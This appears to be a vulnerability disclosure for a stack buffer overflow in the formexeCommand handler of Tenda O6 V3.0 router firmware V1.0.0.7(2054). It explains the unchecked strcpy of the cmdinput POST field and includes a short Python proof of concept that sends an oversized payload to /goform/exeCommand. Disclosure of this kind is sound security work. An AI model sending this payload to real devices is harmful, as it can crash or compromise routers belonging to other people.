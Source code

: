 ## Overview
- Firmware download website: [https://www.tenda.com.cn/download/detail-3861.html](https://www.tenda.com.cn/download/detail-3861.html)
## Affected version
  O6 V3.0 V1.0.0.7(2054)
## Vulnerability details
The O6 V3.0 V1.0.0.7(2054) firmware contains a stack overflow vulnerability in the `formexeCommand` function. Specifically, the `Var` variable is assigned the value of the `cmdinput` parameter from a POST request. Since `cmdinput` is user-controlled, its value can be manipulated to exceed the allocated size of the `v3` array. This vulnerability arises from the use of the `strcpy(v3 + 16, src)` statement, which does not perform bounds checking on the input. Consequently, if the length of the user-provided `cmdinput` exceeds the storage capacity of the `v3` array, it causes a buffer overflow, leading to a potential security exploit.
![Vulnerability Function2](./20240805171010.png)

![[Pasted image 20240805171010.png]]

## POC
```python
import requests
ip = "192.168.109.145"
url = "http://" + ip + "/goform/exeCommand"
payload = b"ab"*3000

data = {"cmdinput": payload}
response = requests.post(url, data=data)
print(response.text)
```
![[Pasted image 20240805163853.png]]
